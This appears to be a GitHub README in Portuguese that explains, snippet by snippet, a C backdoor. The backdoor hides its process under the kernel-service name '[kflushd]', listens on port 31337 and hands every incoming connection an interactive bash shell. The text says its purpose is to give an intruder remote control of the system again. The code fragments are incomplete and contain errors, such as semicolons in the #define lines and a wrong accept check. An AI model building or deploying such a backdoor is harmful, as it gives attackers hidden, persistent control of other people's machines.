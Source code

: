 # Backdoor.c
Simple backdoor written in C on DevC++

# 1 

#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <strings.h>
#include <netinet/in.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <signal.h>

--Primeira parte do programa, definiçao das bibliotecas necessarias.

# 2 

#define MINHA_PORTA 31337; --/define a porta.
#define BACKLOG 5; --/numero maximo de conexoes

# 3 

 struct sockaddr_in local; / Estrutura local
  struct sockaddr_in remote; / Estrutura remota

# 4 

strcpy(argv[0], "[kflushd]");
 
--/realiza a copia de "kflushd" para argv[0]: kflushd basicamente é o nome de um serviço no kernel do linux, fazendo com que quando realizado a busca por programas ativos na memoria
 não será exibido um nome "estranho"

# 5 

            Meusocket = socket(AF_INET, SOCK_STREAM, 0);
            bind(Meusocket, (struct sockaddr *)&local, sizeof(struct sockaddr));
            listen(Meusocket, BACKLOG);
            tamanho = sizeof(struct sockaddr_in);


--Define a porta a ser utilizada e o endereço da maquina host que inicializa o script.
--func. bind() e listen() sao responsaveis por ligar a porta ao programa e esperar por conxao e BACKLOG o numero de conexoes.

# 6 

 while(1)
            {
              if((Novosocket=accept(Meusocket, (struct sockaddr *)&remote, &tamanho)) == 1)
                    {
                      perror("accept");
                      exit(1); 
                      }
                      if(!fork())
                      {
                       close(0); close(1); close(2);
                       dup2(Novosocket, 0); dup2(Novosocket, 1); dup2(Novosocket, 2);
                       execl("/bin/bash","bash","-i", (char *)0);
                       close(Novosocket);
                       exit(0);
                       }
              }
  }
  
} 

 --Aceita as conexoes e disponibiliza a shell para o invasor obter o controle remoto do sistema novamente.

# 7 

    execl("/bin/bash","bash","-i", (char *)0);
    close(Novosocket);
    exit(0);
-- execuçao da shell para o atacante


# 8 

 local.sin_addr.s_addr = INADDR_ANY;  
  --define o endereço local a ser usado.

